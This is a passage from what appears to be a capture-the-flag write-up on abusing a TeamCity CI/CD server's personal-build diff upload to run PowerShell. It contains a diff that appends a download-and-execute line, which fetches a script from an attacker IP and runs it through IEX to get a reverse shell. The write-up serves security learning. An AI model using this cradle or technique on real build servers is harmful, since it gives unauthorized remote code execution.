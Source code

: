 Then we can login!

### AMSI Bypass + PS Shell

TeamCity is a CI/CD dashboard, and I'm 99% sure we can gain access by building some kind of project that executes code on the computer. Just need to find out how.&#x20;

When checking the build that we have, we can upload a file here:

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

I read more here:

{% embed url="https://www.jetbrains.com/help/teamcity/personal-build.html" %}

In short, a unified diff file would allow us to append more stuff to the end of the current build, which is obviously not good. Some further enumeration revealed that this uses Powershell.

<figure><img src="../../.gitbook/assets/image (3911).png" alt=""><figcaption></figcaption></figure>

The answer is simple. Include some small Powershell code that would execute some commands to download a reverse shell. So I created a quick diff file like this to test:

{% code overflow="wrap" %}
```
--- hello_world.ps1        2023-04-05 04:22:08.640184787 -0400
+++ hello_world.ps1        2023-04-05 04:21:40.020285109 -0400
@@ -0,0 +1 @@
+(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/downloadmyfiles') | IEX
```
{% endcode %}
